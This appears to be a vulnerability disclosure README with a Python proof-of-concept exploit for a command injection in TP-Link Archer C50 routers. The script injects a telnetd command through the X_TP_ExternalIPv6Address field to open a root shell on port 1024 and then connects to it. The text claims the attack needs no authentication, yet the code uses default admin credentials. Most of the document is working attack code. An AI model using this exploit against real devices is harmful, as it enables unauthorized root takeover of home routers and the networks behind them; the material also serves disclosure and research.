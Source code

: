 # Archer_C50
Exploit Author: yangchunyu@whu.edu.cn

Vendor: TP-Link

Firmware: Archer_C50(TW)_V1_160614

There is remote unauthenticated OS command injection on TP-Link Archer C50 devices vie the X_TP_ExternalIPv6Address HTTP parameter, allowing a remote attacker to run arbitrary commands on the router with root privileges.

Perform command concatenation on the X_TP_ExternalIPv6Address parameter in the HTTP POST message, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2021-44827.

# poc
import requests

import base64

import os

import time

ip = targetIPAddress

username = "admin"

password = "admin"

tplink_url = "http://" + ip + "/cgi?2&2"

userinfo = username + ":" + password

cookie = "Authorization=Basic " + base64.b64encode(userinfo.encode()).decode("ascii")

referer = "http://" + ip +"/mainFrame.htm"

cmd = "telnet " + ip + " 1024"

payload_template = """[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1\r

X_TP_lastUsedIntf=ipoe_eth3_s\r

[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21\r

externalIPAddress=192.168.9.222\r

subnetMask=255.255.255.0\r

defaultGateway=192.168.9.2\r

NATEnabled=1\r

X_TP_FullconeNATEnabled=0\r

X_TP_FirewallEnabled=1\r

X_TP_IGMPProxyEnabled=1\r

X_TP_IGMPForceVersion=0\r

maxMTUSize=1500\r

DNSOverrideAllowed=1\r

DNSServers=192.168.9.3,0.0.0.0\r

X_TP_IPv4Enabled=1\r

X_TP_IPv6Enabled=0\r

X_TP_IPv6AddressingType=Static\r

X_TP_ExternalIPv6Address=commond\r

X_TP_PrefixLength=64\r

X_TP_DefaultIPv6Gateway=::\r

X_TP_IPv6DNSOverrideAllowed=0\r

X_TP_IPv6DNSServers=::,::\r

X_TP_MLDProxyEnabled=0\r

enable=1\r
"""
payload = payload_template.replace("commond", "::")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

time.sleep(5)

payload = payload_template.replace("commond", "&telnetd -p 1024 -l sh&")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

os.system(cmd)
